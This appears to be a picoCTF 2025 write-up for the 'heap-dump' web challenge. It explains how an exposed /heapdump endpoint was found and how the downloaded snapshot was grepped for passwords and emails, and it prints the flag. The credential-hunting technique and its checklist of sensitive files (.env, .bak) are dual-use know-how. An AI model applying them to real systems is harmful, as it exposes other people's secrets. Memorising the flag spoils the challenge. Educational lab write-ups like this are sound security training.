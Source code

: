 # 📝 heap-dump — Heap Dump Analysis | picoCTF 2025

> 📅 **Date:** August 2, 2025  
> 🎓 **Challenge Type:** Web Exploitation (Heap Dump)  
> 🏁 **Status:** Solved  
> 🔐 **Author:** [@am1tt]

---

**Challenge Name:** `heap-dump`  
**Challenge URL:**  
```
http://verbal-sleep.picoctf.net:61925
```

---

## 💡 Understanding Heap Dump Exposure

Heap dumps can contain a snapshot of memory at a given point in time, often exposing sensitive data like credentials, tokens, or internal application logic.

In web applications, if a `.heapsnapshot` file is accessible, it can be parsed for secrets using tools like `grep`, browser DevTools, or JSON viewers.

---

## 🛠️ Solution Steps

### 🔍 Step 1: Basic Recon

Used Burp Suite with proxy enabled to visit the homepage:

```
http://verbal-sleep.picoctf.net:61925
```

📭 Nothing useful was shown directly.

---

### 🔎 Step 2: Discovering the Heap Dump

Visited the API documentation:

```
http://verbal-sleep.picoctf.net:61925/api-docs/#/Diagnosing/get_heapdump
```

📁 This hinted at a `GET /heapdump` endpoint.

---

### 📥 Step 3: Downloading the Heap Snapshot

Used **Repeater** in Burp Suite to issue the request:

```http
GET /heapdump HTTP/1.1
Host: verbal-sleep.picoctf.net:61925
```

💾 The server returned a downloadable file named:

```
heapdump-1754137158919.heapsnapshot
```

---

### 🧪 Step 4: Analyzing the Heap Dump

Used `grep` to search for credentials inside the dump file:

```bash
grep -i "password" heapdump-1754137158919.heapsnapshot
grep -i "email" heapdump-1754137158919.heapsnapshot
```

🔐 Found credential patterns embedded in the file!

---

### 🚩 Step 5: Retrieve the Flag

Within the grep results or via Burp Repeater, found and extracted:

```
picoCTF{h34p_3xp0s3d_y0ur_s3cr3ts}
```

---

## 🧰 Tools Used

- Burp Suite
- Burp Repeater
- grep
- Browser DevTools

---

## ✅ Flag

```
picoCTF{h34p_3xp0s3d_y0ur_s3cr3ts}
```

---

## 📘 Notes

- Always inspect `/api-docs` or Swagger if available
- Look out for `.heapsnapshot`, `.memdump`, `.env`, `.bak`, etc.
- Use `grep` or `jq` to analyze large JSON heap snapshots efficiently
- Snapshot memory dumps often expose plaintext secrets

---

> 👤 [@am1tt](https://github.com/am1tt) | 🔐 Cybersecurity | 💥 CTF | 🧠 Pentesting
